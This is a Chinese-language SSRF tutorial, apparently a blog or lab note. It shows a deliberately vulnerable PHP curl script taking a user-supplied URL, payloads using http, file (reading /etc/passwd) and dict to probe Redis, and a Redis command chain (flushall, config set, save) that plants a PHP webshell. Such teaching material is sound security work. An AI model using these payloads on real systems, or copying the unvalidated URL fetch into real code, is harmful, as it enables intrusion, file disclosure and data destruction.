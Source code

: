 ```php
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);
curl_close($ch);
?>
```

## http协议

`?url=http://httpbin.org/get`

![](https://img.mi3aka.eu.org/2022/09/50781955f2026fae0ed3232cb86ec775.png)

## file协议

`?url=file:///etc/passwd`

![](https://img.mi3aka.eu.org/2022/09/1f89037b77aa5fa68aca85981816e17b.png)

## dict协议

`?url=dic://ip:port/info`查看当前redis的相关配置

![](https://img.mi3aka.eu.org/2022/09/12556d9b5aba426f39a018259c821e29.png)

>如果提示`NOAUTH Authentication required`则说明需要密码

![](https://img.mi3aka.eu.org/2022/09/374c5d41904f6c7c8bd73c88fbce4e79.png)

![](https://img.mi3aka.eu.org/2022/09/d0c59e91d2224a54d6c0d4bace65a187.png)

对于存在认证的redis无法利用dict协议进行攻击,因为dict每次只能传输单行数据(单条完整指令)

---

>攻击链条如下

1. 写webshell

```
flushall
config set dir /tmp
config set dbfilename shell.php
set:webshell:"\x3C\x3fphp\x20phpinfo\x28\x29\x3b\x3f\x3e"
用\x3f代替?避免写入出错
save
```

![](https://img.mi3aka.eu.org/2022/09/11cfa900e3cf423bac805391e4a65917.png)
